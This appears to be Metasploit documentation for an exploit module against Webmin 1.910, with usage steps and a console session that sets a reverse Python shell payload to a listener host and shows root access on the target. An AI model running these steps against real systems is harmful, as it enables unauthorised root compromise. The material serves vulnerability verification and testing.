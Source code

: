 ## Description

This module exploits an arbitrary command execution vulnerability in Webmin
1.910 and lower versions. any user authorized to the "Package Updates" module can execute arbitrary commands with root privileges via the data parameter to update.cgi.

## Vulnerable Application

This module has been tested with [Webmin 1.910](https://sourceforge.net/projects/webadmin/files/webmin/1.910/)

## Verification Steps

1. `use exploit/lunix/http/webmin_packageup_rce`
2. `set rhosts <rhost>`
3. `set username <username>`
4. `set password <password>`
5. `exploit`

## Scenarios

### Tested Webmin 1.910 on Debian Linux 4.19.28-2kali1 x64

```
msf >
msf > use exploit/linux/http/webmin_packageup_rce
msf exploit(linux/http/webmin_packageup_rce) > set RHOSTS 192.168.1.9
RHOSTS => 192.168.1.9
msf exploit(linux/http/webmin_packageup_rce) > set PAYLOAD cmd/unix/reverse_python
PAYLOAD => cmd/unix/reverse_python
msf exploit(linux/http/webmin_packageup_rce) > set LHOST 192.168.1.12
LHOST => 192.168.1.12
msf exploit(linux/http/webmin_packageup_rce) > set USERNAME rce
USERNAME => rce
msf exploit(linux/http/webmin_packageup_rce) > set PASSWORD password
PASSWORD => password
msf exploit(linux/http/webmin_packageup_rce) > check

[*] NICE! rce has the right to >>Package Update<<
[+] 192.168.1.9:10000 - The target is vulnerable.
msf exploit(linux/http/webmin_packageup_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.12:4444 
[+] Session cookie: 1947b5dfd62403b8f1f58f497e88b1e5
[*] Attempting to execute the payload...
[*] Command shell session 12 opened (192.168.1.12:4444 -> 192.168.1.9:47552) at 2019-06-16 18:21:46 -0400

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux AkkuS 4.19.0-kali4-amd64 #1 SMP Debian 4.19.28-2kali1 (2019-03-18) x86_64 GNU/Linux
pwd
/usr/share/webmin/package-updates/
exit
```

